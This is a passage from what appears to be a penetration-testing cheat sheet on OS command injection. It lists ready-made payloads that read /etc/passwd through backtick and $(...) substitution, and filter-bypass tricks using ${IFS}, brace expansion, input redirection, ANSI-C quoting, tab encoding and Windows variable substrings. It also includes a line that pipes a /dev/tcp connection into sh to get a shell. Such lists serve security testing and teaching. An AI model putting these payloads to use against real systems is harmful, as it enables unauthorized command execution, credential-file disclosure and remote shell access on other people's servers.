 * Command injection using backticks.

  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```

* Command injection using substitution

  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```

## Filter Bypasses

### Bypass Without Space

* `$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a separator in commands like `ls`, `wget`; use `${IFS}` instead.

  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```

* In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.

  ```powershell
  {cat,/etc/passwd}
  ```

* Input redirection. The < character tells the shell to read the contents of the file specified.

  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```

* ANSI-C Quoting

  ```powershell
  X=$'uname\x20-a'&&$X
  ```

* The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.

  ```powershell
  ;ls%09-al%09/home
  ```

* In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.

  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```
